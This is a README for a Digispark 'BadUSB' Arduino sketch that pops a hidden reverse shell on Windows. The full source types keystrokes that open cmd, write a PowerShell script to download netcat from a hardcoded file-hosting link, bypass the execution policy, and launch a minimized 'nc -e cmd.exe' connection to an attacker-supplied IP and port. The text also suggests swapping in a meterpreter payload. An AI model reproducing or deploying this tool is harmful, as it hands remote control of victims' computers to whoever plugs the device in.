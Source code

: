 # Digispark Arduino Reverse Shell for windows 10

#### Although designed for windows 10 this script will work for windows vista onwards.

## A digispark arduino script to pop a reverse hidden shell to a specified ip address using netcat.

I recommend wrapping the pcb with electrical tape with small holes for the LED's to avoid shortages when transporting the device such as in the image below.

<img src="https://github.com/valkyrix/digispark-reverse-shell-windows-10/raw/master/digispark.jpg" align="middle" height="400" width="400" >

The listening machine will need to be running before the script is run.

This script can be easily modified to pop a reverse meterpreter shell instead of netcat.

link to download netcat has been hardcoded but can be replaced if wanted. To do this change the url to a direct download url of nc64.exe.

This script has been optimised to run on the digisparks limited memory requirements.

#### Warning: depending on the model of digispark the onboard led might be on pin 0 instead of 1.

LED Run-status: The LED will blink to state the code has started running. Once the code execution has completed the LED will stay illuminated and thus the device can be unplugged.

replace `IP` and `PORT` with your own values.
```Arduino
#include "DigiKeyboard.h"
/* Init function */
//script created by valkyrix.github.io
void setup()
{//turn LED off while code is running, this means the device is safe to unplug as soon as the LED turns back on
  pinMode(1, OUTPUT); //LED on Model A
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(500);
  digitalWrite(1, LOW);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd / & mkdir win & cd /win & echo (wget 'https://1fichier.com/?dtc7uqmikl' -OutFile a.exe) > b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.println("powershell -ExecutionPolicy ByPass -File b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.println("START /MIN a.exe IP PORT -e cmd.exe -d & exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  digitalWrite(1, HIGH);
}

/* Unused endless loop */
void loop() {}

```
